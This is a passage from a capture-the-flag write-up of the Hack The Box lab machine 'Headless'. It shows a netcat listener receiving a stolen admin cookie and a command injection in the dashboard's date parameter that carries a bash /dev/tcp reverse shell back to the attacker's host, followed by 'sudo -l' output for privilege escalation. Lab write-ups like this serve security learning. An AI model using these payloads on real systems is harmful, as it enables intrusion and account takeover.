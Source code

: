 ```
┌─[✗]─[tobaka@parrot]─[~/ctf/htb/machines/headless]
└──╼ $nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.80] from (UNKNOWN) [10.10.11.8] 52376
GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1
Host: 10.10.14.80:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5000/
Origin: http://localhost:5000
Connection: keep-alive
```

#### /dashboard endpoint

We discover this functionality.
![[Pasted image 20240605194633.png]]

After capturing the request with BURP suite and tweaking with it, we find out the date parameter is vulnerable to command injection.
We proceed to run a revshell and gain control of the machine.

```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2+$(bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.80/9001+0>%261")
```

---

## Privesc

First things first, let's run a `sudo -l` and see what commands we can run.

```
-bash-5.2$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
